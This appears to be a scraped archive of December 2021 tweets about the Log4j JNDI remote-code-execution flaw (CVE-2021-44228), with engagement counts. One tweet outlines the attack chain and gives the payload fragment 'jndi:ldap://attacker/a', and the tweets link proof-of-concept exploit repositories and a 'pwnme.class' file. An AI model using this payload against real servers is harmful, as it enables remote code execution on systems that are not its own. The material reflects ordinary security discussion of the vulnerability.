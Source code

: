 https://t.co/Go4PnBCzs3
</blockquote>

* http://pickyourfavadnetwork.com/pwnme.class
* https://github.com/tangxiaofeng7/apache-log4j-poc

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>28</code></td>
<td>Favorites: <code>53</code></td>
</tr></table>

---

# JLLeitschuh
**https://twitter.com/JLLeitschuh/status/1469148466341416964 _at 2021-12-10 03:34:24_**
<blockquote>
So this Log4J JNDI vulnerability (CVE-2021-44228) is nasty.

From my understanding, any user input being logged is a potential RCE vector.

This logging framework is used everywhere in the JVM ecosystem.

😬😩
</blockquote>


<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>46</code></td>
</tr></table>

---

# jschauma
**https://twitter.com/jschauma/status/1469137538598195204 _at 2021-12-10 02:50:59_**
<blockquote>
Oy, this looks juicy: RCE in log4j

- send data to vulnerable server
- server makes callback to your server via jndi:ldap://attacker/a
- you serve the exploit.class
- victim executed injected code

https://t.co/fis7qBINXu
https://t.co/UiSunvdpTj
</blockquote>

* https://www.lunasec.io/docs/blog/log4j-zero-day/
* https://github.com/Al0sc/Log4j-rce
